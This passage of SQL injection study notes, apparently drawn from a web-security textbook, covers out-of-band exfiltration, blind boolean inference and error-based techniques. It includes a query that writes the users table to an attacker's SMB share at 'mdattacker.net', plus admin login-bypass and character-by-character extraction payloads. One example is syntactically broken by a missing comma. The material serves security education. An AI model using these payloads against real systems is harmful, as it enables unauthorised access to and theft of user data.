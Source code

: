 ```
select * into outfile '\\\\mdattacker.net\\share\\output.txt' from users;
```

To receive file, you need to create an SMB share on you rcomputer that allows anonymous write access. You can configure shares on both Windows and UNIX-based platforms to behave in this way. If you have difficulty receiving the exported file, this may result from a configuration issue in your SMB server. You can use a sniffer to confirm whether the target server is initiating any inbound connections to your computer. If it is, consult your server documentation to ensure that it is configured correctly.


### Using Inference: Conditional Responses
Most commonly out-of-band is unavailable because the database is located within a protected network whose perimeter firewalls do not allow any outbound connections to the Internet or any other network. There are various techniques based on the concept of using an injected query to conditionally trigger some detectable behavior by the database and then inferring a required item of information on the basis of whether this behavior occurs.

For example, submitting the following two pieces of input causes very different results:

```
admin' AND 1=1--
admin' AND 1=2--
```

In the first case, the application logs you in as the admin user. In the second case, the login attempt fails, because the `1=2` condition is always false. You can leverage this control of teh application's behavior as a means of inferring the trugh or falsehood of arbitrary conditions within the database itself. For example, using `ASCII` and `SUBSTRING` functions, you can test whether a specific character of a captured string has a specific value. For example, submitting this peiced of input logs you in as the admin user, because the condition tested is true:

```
admin' AND ASCII(SUBSTRING('Admin',1,1)) = 65--
```

Submitting the following input, however, results in a failed login, because the condition testd is false:

```
admin' AND ASCII(SUBSTRING('Admin'1,1)) = 66--
```

By submitting a large number of such queries, cycling through the range of likely ASCII codes for each character until a hit occurs, you can extract the entire string, one byte at a time.

#### Inducing Conditonal Errors
David Litchfield devised a technique that can be used to trigger a detectable difference in behavior in most circumstances. The core idea is to inject a query that induces a database error contingent on some specified condition. When a database error occurs, it is often externally detectable, either through an HTTP 500 response code or through some kind of error message or anomalous behavior (even if the error message itself does not disclose any useful info). An example of this behavior is a `SELECT` statement containing a `WHERE` clause:

```
SELECT X FROM Y WHERE C
```
